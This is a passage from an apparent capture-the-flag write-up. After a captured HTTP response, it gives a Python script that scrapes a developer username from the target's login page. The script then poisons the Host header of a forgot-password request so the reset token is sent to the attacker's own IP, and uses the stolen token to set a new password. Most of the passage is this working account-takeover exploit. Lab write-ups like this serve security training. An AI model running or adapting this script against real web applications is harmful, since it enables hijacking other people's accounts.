 ```bash
HTTP/1.1 302 FOUND
Server: Werkzeug/2.1.2 Python/3.8.10
Date: Sun, 29 Jan 2023 10:19:41 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 189
Location: /
X-Varnish: 229458
Age: 0
Via: 1.1 varnish (Varnish/6.2)
Connection: keep-alive
```

All this seems a bit short lived, as it seems the dev user is beeing updated regularly by some scripts for the needs of the CTF. So here's a quick and dirty python script to automate fetching the user, stealing the reset password link and resetting the password:
```python
from flask import *
import sys
import requests
from base64 import b64encode
from urllib.parse import urlparse
from urllib.parse import parse_qs
import logging

log = logging.getLogger('werkzeug')
log.setLevel(logging.ERROR)

def get_username():
    login = requests.get(f"http://{host}").content
    login = login.decode().split("\n")
    dev_comment = [x for x in login if "Q1 release fix by" in x]
    username = dev_comment[0].split("by ")[-1].split(" ")[0]
    if username:
        print("Found username: " + username)
    return username

host = "10.10.11.188"
my_ip = "10.10.14.53"
passwd = "asdf"
username = get_username()
app = Flask(__name__)


def trigger_iforgot():
    url = f"http://{host}/forgot?username={username}"
    headers = {"Host": f"{my_ip}"}
    res = requests.get(url, headers=headers)
    if "Please use the link to reset your password" in res.text:
        print("Password link sent. Awaiting token...")

def change_password(token):
    url = f'http://{host}/reset?token={token}'
    data = f'password={passwd}'
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
        "Host": host
    }
    print(f"Sending password change request to {url}")
    res = requests.post(url, data=data, headers=headers)
    if "Success" in res.text:
        print(res.text)
        print(f"{username}:{passwd}")
        sys.exit()

```